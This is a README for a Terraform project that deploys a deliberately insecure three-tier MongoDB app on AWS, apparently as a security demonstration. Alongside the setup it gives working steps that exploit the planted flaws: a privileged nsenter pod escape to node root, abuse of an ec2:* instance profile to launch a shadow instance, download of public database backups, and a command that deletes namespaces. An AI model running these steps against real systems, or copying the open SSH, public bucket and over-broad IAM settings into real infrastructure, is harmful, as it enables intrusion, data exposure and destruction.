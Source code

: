 # aws-tasky
This repo will build all required AWS Networking and resources to run a 3 tiered MongoDB app.  This includes EC2, EKS, S3, Route53, and AWS Config.

## Pre Reqs
- Setup shell with AWS credentials
- AWS Key Pair
- Terraform 1.3.7+
- aws cli
- kubectl
- helm
- curl
- jq

## Getting Started
```
cd quickstart/infra
```
Update the `my.auto.tfvars` for your environment.  Configure your existing AWS Key Pair or copy a local SSH key to your region using this script `./scripts/push-aws-sshkey-multiregion.sh`. Review the prefix being used for resource names, the EKS version, private zone name for route53, and external  CIDR for SSH access. 

### Provision Infrastructure
Use terraform to build the required AWS Infrastructure
```
terraform init
terraform apply -auto-approve
```
All AWS resources will be provisioned and configured to support the tasky application.

### Resource Overview
While the infrastructure is being provisioned review the resources that are being created.

#### Tasky Image
* [Dockerfile](https://github.com/ppresto/aws-tasky/blob/main/docker/Dockerfile.chainguard-static)

#### AWS VPC
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/locals-usw2.tf#L17)
* [terraform-aws-modules/vpc/aws](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf)
#### AWS EC2
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L54)
* [IAM Profile](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_iam_profile/iam-profile.tf)
    * Actions: "ec2:*","s3:GetObject","s3:PutObject","s3:PutObjectAcl","s3:DeleteObject","s3:ListBucket"
#### AWS Security Groups
  * [EC2](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/main.tf#L30)
    * Ingress: Allow "0.0.0.0/0" -> TCP 22
    * Egress:  Allow "0.0.0.0/0: -> Any Protocol, Any Port
  * [MongoDB](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_sg_mongod/main.tf#L12)
    * Ingress: Allow "10.15.0.0/20" -> TCP 27017
#### AWS Route53
* [mongoDB record](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L82)

#### AWS S3
* [Public bucket](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L115)

#### Mongo DB
* [DB build script](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/templates/mongo.sh)

Its recommended to shift left to the Infrastructure pipeline and use Packer to build the mongodb image.  Leverage your standard secrets mgmt solution to configure DB access to avoid leaking sensitive data in the process.  This image was created using Terraform's user_data to keep everything simple and using a single tool.

#### AWS EKS Cluster 1.29
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L129)
* [terraform-aws-modules/eks/aws](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/main.tf#L9)

#### AWS Loadbalancer controller
* [AWS LB controller](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/aws_alb_controller.tf) 

This was installed as a best pratice to support internal NLB or ALBs to EKS services.  The required pulic subnet tags were added as part of the VPC creation to enable the ALB to discover EKS services in the private subnets.


## Connect to EKS
Connect to EKS using `scripts/kubectl_connect_eks.sh`.  Pass this script the path to the terraform state file used to provision the EKS cluster.  If cwd is ./infra like above then this command would look like the following:
```
source ../../scripts/kubectl_connect_eks.sh .
kubectl -n tasky get po
```
This script connects EKS and builds some useful aliases shown in the output.

## Get the Ingress URL
Use this URL to access the Tasky application.  Login to verify Tasky is healthy and create tasks.
```
make getIngress

Tasky URL - http://tasky-ingress-1379807902.us-west-2.elb.amazonaws.com
```
FYI: The Makefile can also be used to see pre and post security scans, build infra, and clean up the project.

## Tasky Application - Verify RBAC
Is the application running with cluster-admin privileges?

The tasky pod should be running a second container `network-multitool`.  To see if containers have cluster-admin privilages connect to the sidecar, install `kubectl`, and use it to **escape into the Working Node as root!**
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
```

Escape into the Node as **root** with kubectl
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
## Public EC2 MongoDB - Verify ext SSH and RBAC
Get the public IP of the EC2 instance running Mongo DB
```
IP=$(terraform output -json | jq -r '.usw2_ec2_ip.value."usw2-shared-ext-mongodb"')
```

### Verify SSH is exposed externally  
```
ssh ubuntu@${IP}
```
This will use the AWS key that was defined in `my.auto.tfvars`

### Verify the EC2 Profile has to many privileges (ec2:*)
If an EC2 instance can assume this level of privilege it can easily provision new EC2 instances in any subnet, map it to any security group, and configure any SSH key pair.  Lets see how easy it is.

EC2 key pair creation
```
ssh-keygen
aws ec2 create-key-pair --key-name pp-keypair-test
```

EC2 Discovery

Find a public subnet that is routable from the internet and a security group you want to apply to your shadow instance
```
aws ec2 describe-subnets --filters "Name=tag:Tier,Values=Public" | grep SubnetId
aws ec2 describe-security-group-rules --query 'SecurityGroupRules[].[Description, SecurityGroupRuleId, ToPort, CidrIpv4]' --output table
```

EC2 Instance Creation
```
aws ec2 run-instances \
  --image-id ami-07fe743f8d6d95a40 \
  --instance-type t2.micro \
  --subnet-id subnet-09d0a1ac53cbdab60 \
  --security-group-ids sg-02c6b447d7387ae36 \
  --associate-public-ip-address \
  --key-name ppresto-ptfe-dev-key
```

Get the external IP to SSH to the new instance
```
aws ec2 describe-instances --query 'Reservations[].Instances[].[InstanceId, InstanceType, SubnetId, PublicIpAddress]' --output table
```

## Mongo DB Backups to S3
Verify the backups are going to S3, they are public, and can be downloaded.  Start by going to the S3 URL in your browser.
```
terraform output bucket_url
```
You should see a list of .tar.gz files.  These are the DB backups happening every 5 minutes.  Copy one of the file names and update the URL with `/<filename>`.  This should download the exact file.

## Notes
Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

## References
[OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
[OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
[2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
[HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)